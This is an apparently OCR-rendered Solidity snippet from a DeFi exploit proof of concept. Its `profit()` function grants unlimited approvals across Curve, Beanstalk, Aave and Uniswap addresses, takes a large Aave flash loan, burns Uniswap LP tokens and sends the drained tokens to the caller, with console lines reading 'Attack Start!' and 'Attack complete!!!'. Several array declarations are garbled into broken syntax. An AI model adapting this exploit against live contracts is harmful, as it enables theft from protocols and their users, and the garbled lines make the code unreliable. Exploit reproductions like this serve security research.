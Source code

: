 ```solidity
    address public wethBeanUniPairAddress   = 0x87898263B6C5BABe34b4ec53F22d98430b91e371;
    address public wethAddress              = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address public router                   = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    address public lusdOhmUniPairAddress    = 0x46E4D8A1322B9448905225E52F914094dBd6dDdF;
    address public weth                     = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;


    function profit() public{
        //prepare
        IERC20(beanTokenAddress).approve(crvDepositor, type(uint).max);
        IERC20(usdcAddress).approve(crvDepositor, type(uint).max);
        IERC20(daiAddress).approve(crvDepositor, type(uint).max);
        IERC20(usdtAddress).approve(crvDepositor, type(uint).max);
        IERC20(usdcAddress).approve(crvDTCPool, type(uint).max);
        IERC20(daiAddress).approve(crvDTCPool, type(uint).max);
        IERC20(usdtAddress).approve(crvDTCPool, type(uint).max);
        IERC20(crvDTC).approve(lusdCrvAddress, type(uint).max);
        IERC20(lusdAddress).approve(lusdCrvAddress, type(uint).max);
        IERC20(crvDTC).approve(beanCrvAddress, type(uint).max);
        IERC20(beanTokenAddress).approve(beanLusdAddress, type(uint).max);
        IERC20(lusdAddress).approve(beanLusdAddress, type(uint).max);
        IERC20(usdcAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(beanCrvAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(beanLusdAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(beanTokenAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(usdcAddress).approve(aavePoolAddress, type(uint).max);
        IERC20(daiAddress).approve(aavePoolAddress, type(uint).max);
        IERC20(usdtAddress).approve(aavePoolAddress, type(uint).max);
        
        IERC20(beanTokenAddress).approve(beanCrvAddress, type(uint).max);
        IERC20(lusdAddress).approve(beanCrvAddress, type(uint).max);
        uint256 usdtBefore = IERC20(usdtAddress).balanceOf(msg.sender);
        uint256 usdcBefore = IERC20(usdcAddress).balanceOf(msg.sender);
        uint256 daiBefore = IERC20(daiAddress).balanceOf(msg.sender);
        uint256 wethBefore = IERC20(weth).balanceOf(msg.sender);
        uint256 beanBefore = IERC20(beanTokenAddress).balanceOf(msg.sender);

        console.log("Attack Start!");
        {
        address[] memory addrArray = new address[](3 "] memory addrArray = new address[");
        addrArray[0] = daiAddress;
        addrArray[1] = usdcAddress;
        addrArray[2] = usdtAddress;
        uint256[] memory amounts = new uint256[](3 "] memory amounts = new uint256[");
        amounts[0] = 350*1e24;
        amounts[1] = 500*1e12;
        amounts[2] = 150*1e12;
        uint256[] memory types = new uint256[](3 "] memory types = new uint256[");
        IAAVEPool(aavePoolAddress).flashLoan(address(this),  addrArray,  amounts, types, address(this), new bytes(0), 0);
        }

        IERC20(wethBeanUniPairAddress).transfer(wethBeanUniPairAddress, IERC20(wethBeanUniPairAddress).balanceOf(address(this)));
        IUniswapV2Pair(wethBeanUniPairAddress).burn(address(this));

        IERC20(daiAddress).transfer(msg.sender, IERC20(daiAddress).balanceOf(address(this)));
        IERC20(usdcAddress).transfer(msg.sender, IERC20(usdcAddress).balanceOf(address(this)));
        IERC20(wethAddress).transfer(msg.sender, IERC20(wethAddress).balanceOf(address(this)));
        IERC20(usdtAddress).transfer(msg.sender, IERC20(usdtAddress).balanceOf(address(this)));
        IERC20(beanTokenAddress).transfer(msg.sender, IERC20(beanTokenAddress).balanceOf(address(this)));
        console.log("Attack complete!!!");
```